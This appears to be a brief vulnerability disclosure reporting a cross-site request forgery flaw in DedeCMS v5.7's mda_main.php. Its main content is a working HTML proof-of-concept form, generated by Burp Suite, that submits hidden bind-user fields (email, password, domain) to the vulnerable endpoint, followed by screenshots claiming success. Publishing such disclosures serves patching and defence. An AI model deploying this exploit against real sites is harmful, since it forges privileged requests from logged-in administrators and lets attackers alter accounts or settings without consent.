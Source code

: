target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/mda_main.php
![1](https://github.com/Xin246/cms/assets/160984304/bbb5c152-67c8-4e28-867e-3e42d6c7dc3e)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/mda_main.php?" method="POST">
      <input type="hidden" name="dopost" value="bind&#95;user" />
      <input type="hidden" name="email" value="cs&#64;123&#46;com" />
      <input type="hidden" name="pwd" value="Qwer1234" />
      <input type="hidden" name="domain" value="127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="channel&#95;name" value="�&#136;&#145;�&#154;&#132;�&#189;&#145;�&#171;&#153;" />
      <input type="hidden" name="imageField1&#46;x" value="28" />
      <input type="hidden" name="imageField1&#46;y" value="10" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
![2](https://github.com/Xin246/cms/assets/160984304/f9350c5e-4217-4655-9a90-498037439cad)



successed

![3](https://github.com/Xin246/cms/assets/160984304/974cbbc0-c219-48ca-91af-a719b378b2d0)
